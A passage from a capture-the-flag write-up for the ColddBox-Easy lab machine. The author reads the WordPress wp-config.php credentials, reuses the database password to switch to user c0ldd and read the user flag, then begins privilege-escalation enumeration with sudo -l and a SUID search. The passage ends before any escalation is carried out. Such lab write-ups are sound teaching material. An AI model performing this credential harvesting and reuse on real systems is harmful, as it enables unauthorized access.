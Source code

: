 Enumerate more...Remember to always check php config code! 

Back to /var/www/html look for config files

```
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php
cat wp-config.php

...

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

...

```
Take some pride

```
www-data@ColddBox-Easy:/var/www/html$ su c0ldd
su c0ldd
Password: cybersecurity

c0ldd@ColddBox-Easy:/var/www/html$ cat /home/c0ldd/user.txt
cat /home/c0ldd/user.txt
c2lrZSEgdGhhdCdzIHRoZSB3cm9uZyBmbGFnIQ==
```

## privilege escalation

Ok the real thing starts here!

the author said there were many ways to Privesc so let's explore some

```
c0ldd@ColddBox-Easy:/var/www/html$ sudo -l
sudo -l
[sudo] password for c0ldd: cybersecurity

Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```
```
c0ldd@ColddBox-Easy:/var/www/html$ find / -perm -u=s 2>/dev/null
find / -perm -u=s 2>/dev/null
/bin/su
/bin/ping6
/bin/ping
/bin/fusermount
/bin/umount
/bin/mount
```